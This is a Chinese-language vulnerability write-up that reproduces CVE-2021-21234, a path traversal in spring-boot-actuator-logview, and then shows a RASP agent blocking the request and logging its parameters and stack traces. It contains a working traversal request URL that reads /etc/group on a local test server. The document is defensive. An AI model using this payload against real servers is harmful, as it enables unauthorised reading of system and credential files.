


# CVE-2021-21234

## 漏洞简介
spring-boot-actuator-logview 允许文件名和文件夹通过请求参数指定，没有对文件夹路径进行校验，利用文件对路径穿越，造成任意文件下载漏洞。

## 影响版本

spring-boot-actuator-logview <= 0.2.12

## 漏洞复现

+ 下载 [代码工程](https://gitee.com/xl1605368195/vulnerability-actuator-log-viewer.git)

+ 执行`mvn clean package` 生成jar包

+ java -jar ./target/spring-boot-hello-world-example-0.0.1-SNAPSHOT.jar

+ 发起攻击

```
http://localhost:8887/manage/log/view?filename=/etc/group&base=../../../../../../../../../../../../../../../../
```

+ 攻击结果




## RASP防护

+ 再次发起相同请求，请求被阻断




+ RASP截获http参数和调用栈

2021-09-23 23:29:13 WARN  file: spring.log/../../../../../../../../../../../../../../../..,time: 0.507362,thread: http-nio-8887-exec-3,info:
```json
{
    "protocol":"HTTP/1.1",
    "method":"GET",
    "remoteHost":"0:0:0:0:0:0:0:1",
    "requestURI":"/manage/log/view",
    "stackTrace":[
        "java.io.File.<init>(File.java:275)",
        "sun.nio.fs.AbstractPath.toFile(AbstractPath.java:96)",
        "eu.hinsch.spring.boot.actuator.logview.FileSystemFileProvider.canHandle(FileSystemFileProvider.java:26)",
        "eu.hinsch.spring.boot.actuator.logview.LogViewEndpoint.lambda$getFileProvider$1(LogViewEndpoint.java:83)",
        "java.util.stream.ReferencePipeline$2$1.accept(ReferencePipeline.java:174)",
        "java.util.Spliterators$ArraySpliterator.tryAdvance(Spliterators.java:958)",
        "java.util.stream.ReferencePipeline.forEachWithCancel(ReferencePipeline.java:126)",
        "java.util.stream.AbstractPipeline.copyIntoWithCancel(AbstractPipeline.java:499)",
        "java.util.stream.AbstractPipeline.copyInto(AbstractPipeline.java:486)",
        "java.util.stream.AbstractPipeline.wrapAndCopyInto(AbstractPipeline.java:472)",
        "java.util.stream.FindOps$FindOp.evaluateSequential(FindOps.java:152)",
        "java.util.stream.AbstractPipeline.evaluate(AbstractPipeline.java:234)",
        "java.util.stream.ReferencePipeline.findFirst(ReferencePipeline.java:464)",
        "eu.hinsch.spring.boot.actuator.logview.LogViewEndpoint.getFileProvider(LogViewEndpoint.java:84)",
        "eu.hinsch.spring.boot.actuator.logview.LogViewEndpoint.view(LogViewEndpoint.java:134)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "org.springframework.web.method.support.InvocableHandlerMethod.doInvoke(InvocableHandlerMethod.java:205)",
        "org.springframework.web.method.support.InvocableHandlerMethod.invokeForRequest(InvocableHandlerMethod.java:133)",
        "org.springframework.web.servlet.mvc.method.annotation.ServletInvocableHandlerMethod.invokeAndHandle(ServletInvocableHandlerMethod.java:97)",
        "org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.invokeHandlerMethod(RequestMappingHandlerAdapter.java:827)",
        "org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.handleInternal(RequestMappingHandlerAdapter.java:738)",
        "org.springframework.web.servlet.mvc.method.AbstractHandlerMethodAdapter.handle(AbstractHandlerMethodAdapter.java:85)",
        "org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:967)",
        "org.springframework.web.servlet.DispatcherServlet.doService(DispatcherServlet.java:901)",
        "org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:970)",
        "org.springframework.web.servlet.FrameworkServlet.doGet(FrameworkServlet.java:861)"
    ],
    "localAddr":"0:0:0:0:0:0:0:1",
    "parameterMap":{
        "filename":[
            "/etc/group"
        ],
        "base":[
            "../../../../../../../../../../../../../../../../"
        ]
    },
    "cookies":[
        {
            "httpOnly":false,
            "maxAge":-1,
            "name":"context-profile-id",
            "secure":false,
            "value":"87e81720-9566-4055-b63b-ed08dbf5f3fb",
            "version":0
        }
    ],
    "remoteAddr":"0:0:0:0:0:0:0:1"
}
```
利用上面的参数和调用栈，很容易复现漏洞利用路径。


+ 如果关闭 new File(String fileName) hook 
将拦截到如下日志：

2021-09-23 23:40:49 WARN  file: spring.log/../../../../../../../../../../../../../../../../etc/group,time: 0.396245,thread: http-nio-8887-exec-3,info: 

```json
{
    "protocol":"HTTP/1.1",
    "method":"GET",
    "remoteHost":"0:0:0:0:0:0:0:1",
    "requestURI":"/manage/log/view",
    "stackTrace":[
        "java.io.FileInputStream.<init>(FileInputStream.java:123)",
        "eu.hinsch.spring.boot.actuator.logview.FileSystemFileProvider.streamContent(FileSystemFileProvider.java:69)",
        "eu.hinsch.spring.boot.actuator.logview.LogViewEndpoint.view(LogViewEndpoint.java:139)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "org.springframework.web.method.support.InvocableHandlerMethod.doInvoke(InvocableHandlerMethod.java:205)",
        "org.springframework.web.method.support.InvocableHandlerMethod.invokeForRequest(InvocableHandlerMethod.java:133)",
        "org.springframework.web.servlet.mvc.method.annotation.ServletInvocableHandlerMethod.invokeAndHandle(ServletInvocableHandlerMethod.java:97)",
        "org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.invokeHandlerMethod(RequestMappingHandlerAdapter.java:827)",
        "org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.handleInternal(RequestMappingHandlerAdapter.java:738)",
        "org.springframework.web.servlet.mvc.method.AbstractHandlerMethodAdapter.handle(AbstractHandlerMethodAdapter.java:85)",
        "org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:967)",
        "org.springframework.web.servlet.DispatcherServlet.doService(DispatcherServlet.java:901)",
        "org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:970)",
        "org.springframework.web.servlet.FrameworkServlet.doGet(FrameworkServlet.java:861)"
    ],
    "localAddr":"0:0:0:0:0:0:0:1",
    "parameterMap":{
        "filename":[
            "/etc/group"
        ],
        "base":[
            "../../../../../../../../../../../../../../../../"
        ]
    },
    "cookies":[
        {
            "httpOnly":false,
            "maxAge":-1,
            "name":"context-profile-id",
            "secure":false,
            "value":"87e81720-9566-4055-b63b-ed08dbf5f3fb",
            "version":0
        }
    ],
    "remoteAddr":"0:0:0:0:0:0:0:1"
}
```
